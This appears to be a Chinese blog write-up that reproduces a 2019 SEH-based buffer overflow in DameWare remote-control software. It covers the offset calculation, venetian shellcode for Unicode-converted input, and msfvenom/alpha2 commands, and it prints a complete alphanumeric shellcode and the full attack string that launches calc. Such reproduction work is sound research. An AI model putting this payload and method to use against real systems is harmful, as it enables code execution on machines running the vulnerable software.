0x01 漏洞描述
DameWare是windows上一款著名的远控软件，其在2019年7月刚被曝出某处存在缓冲区溢出攻击，并可执行任意代码，影响版本V.12.1.0.34，这边做一下复现，环境是win 7(32位)。
0x02 漏洞分析
根据作者POC，在Tools->Computer Comments->Description功能下的ComputerName文本框内输入超长字符串会导致程序内存溢出崩溃，贴下图
输入5000个A：

程序崩溃：

载入OD分析一下，根据栈回溯找到关键调用函数0x4CADB8，Shift+F9后在ComputerName文本框内输入5000个A，程序断在0x4CADB8处，F8单步步过，发现SEH被覆写为0x00410041

按理说SEH应该会被覆写成0x41414141的，但这边确是0x00410041，根据经验，应该是程序把用户输入的ASCII转换成了UNICODE。
为了能够编写exp，这边需要计算下用户输入的栈空间到SEH的偏移量，
1 | msf-pattern_create -l 5000 #msf工具生成5000个字符 |
输入ComputerName文本框后程序断下，单步后发现SEH被更改，堆栈跟随去观察具体覆盖情况


查找偏移:
1 | msf-pattern_offset -q "37694136" -l 5000 |
发现偏移在260个字节处。
0x03 漏洞脚本编写
确定是用户输入转unicode以及溢出偏移量以后就可以编写exp了，主要结构是padding + nseh + seh + shellcode
利用原理如下：
- 将NSEH的指针覆写为shellcode，将当前SEH的处理函数指针指向POP-POP-RET
- 触发SEH
- 将NSEH的指针弹入EIP，执行shellcode
首先在 Immunity debugger 下用mona插件找一个合适的POP-POP-RET地址

由于程序会将用户输入的ascii转为unicode，这边无法找到合适的输入转化为unicode来构造jmp short跳转到shellcode，所以这边使用一种叫做ventian shellcode来进行填充，将shellcode的内存地址放到eax寄存器中，然后push eax到栈上，最后ret eax到eip，通过这种方式去执行shellcode代码。
1 | junk1 = "A" * 260 |
简单来说其实就是找一个接近布置shellcode的缓冲区地址的寄存器，并通过增加/减小它的值来使它指向shellcode，最终通过push reg，ret的方式来跳转到shellcode执行，这边最初的eax距shellcode 50字节的大小，所以需要构造来add eax 50。
之后生成shellcode，这边选用msf来生成，并用一个叫alpha2的工具来将ascii编码的shellcode转为unicode后仍可用的字符串
1 | msfvenom -p windows/exec CMD=calc -f raw > shellcode.raw |
这边alpha2不自带，需要自己编译，贴下源码地址 https://github.com/un4ckn0wl3z/Alpha2-encoder/blob/master/alpha2.c
生成shellcode如下:
1 | shellcode="PPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBKLIXTBKPKPM0C03YK5P1Y01T4KR0004K22LLTKPRMDTKD2NHLO87PJO601KOFLOLQQCLM2NLMPWQXOLMKQWWK2ZRR2PWTKB2LPDKPJOLDKPLN1RXISOXKQXQPQTKPYMPKQXSTK19LX9SNZPITKOD4KKQYFNQKOVLY1XOLMM1WWOH9P45JVKSSMJXOKSMO43EK4PX4KR8MTM1YC1V4KLL0K4K28MLKQ8STKKT4KKQJ0SYOTMTO41K1KQQR9PZPQKOIP1O1OPZTKN2ZKTMQMBJM1TME5X2KPKPM0PPQXNQTKROSWKOXUGKJP85G2PVQX5VV57MUMKO9EOLKVSLKZU0KKYPT5KUWKOWMCRRRO2JKP0SKO8US31QRLS3M0A" |
0x04 攻击演示
将shellcode代入之前编写好的padding+nseh+seh+shellcode+padding的模板，得到攻击代码如下:
1 | AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaC!zCCCCCCCCCCXs삃PsPs쏃CCCCCCCCCCCCCCCCCCPPYAIAIAIAIAQATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBKLIXTBKPKPM0C03YK5P1Y01T4KR0004K22LLTKPRMDTKD2NHLO87PJKOFLOLQQCLM2NLMPWQXOLMKQWWK2ZRR2PWTKB2LPDKPJOLDKPLN1RXISOXKQXQPQTKPYMPKQXSTK19LX9SNZPITKOD4KKQYFNQKOVLY1XOLMM1WWOH9P45JVKSSMJXOKSMEK4PX4KR8MTM1YC1V4KLL0K4K28MLKQ8STKKT4KKQJ0SYOTMTK1KQQR9PZPQKOIP1OPZTKN2ZKTMQMBJM1TME5X2KPKPM0PPQXNQTKROSWKOXUGKJP85G2PVQX5VV57MUMKEOLKVSLKZU0KKYPT5KUWKOWMCRRRJKP0SKUS31QRLS3M0ADDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD |
提前在0x007a0021处下好断点，进行输入后发现断在了0x007a0021处，单步

ret返回到nseh指向的缓冲代码处

1 | add eax 0x50 |

最后ret到真正的shellcode处

执行shellcode，创建calc进程

这边有个问题，按理说padding+nseh+seh+padding+shellcode应该已经能弹calc了，动态调试结果也显示执行calc.exe，但是最后无论怎么改shellcode都是无法弹窗的，看了下作者所说的好像是有坏字符中断了执行流，分析了好久都没理解，很难受，如果有好心dalao知道希望能告知我一下，让我填了这个坑。
这边作者只是在最后的padding后加了两字节unicode就能弹计算器了，神奇，哎，我太难了。
PWN！！！

0x05 完整脚本
1 | #!/usr/bin/env python |